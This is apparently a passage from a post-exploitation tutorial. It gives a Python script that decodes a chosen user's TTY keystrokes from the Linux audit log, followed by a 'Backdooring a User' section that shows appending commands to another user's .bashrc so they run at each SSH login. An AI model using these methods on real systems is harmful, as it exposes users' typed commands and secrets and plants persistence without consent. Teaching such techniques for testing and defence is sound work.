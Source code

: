 ```python
#!/usr/bin/env python

import re
import sys
import os.path
import binascii


def usage():
    print("Usage: "   + sys.argv[0] + " [uid]")
    print("Example: " + sys.argv[0] + " 1001")
    sys.exit()


def log_file_parser(uid):
        audit_log_file  = "/var/log/audit/audit.log"
        regex_audit     = "^type=TTY.*"+" uid=" + uid +".*data=.*"

        if os.path.isfile(audit_log_file) :
                with open(audit_log_file, "r") as file:
                    for line in file:
                        for match in re.finditer(regex_audit, line, re.S):
                            print("[*] Found the following user's audit data belonging to UID:%s" % uid)
                            encoded_commands = ((line.split("data=")[1])).strip()
                            decoded_commands = (binascii.a2b_hex(encoded_commands))
                            print(decoded_commands)
                            print("---")

if __name__ == '__main__':
    if len(sys.argv) > 1:

        uid    = sys.argv[1]
        log_file_parser(uid)

    else:
        usage()
```

## Backdooring a User

2 files are responsible for executing aliases and Bash functions (`.bashrc`) and setting environmental variables (`.profile`); both are executed upon every new SSH login.

```bash
ls -asl /home/bob/.bashrc
```

```bash
echo 'echo "hello from bob .bashrc"' >> /home/bob/.bashrc
```
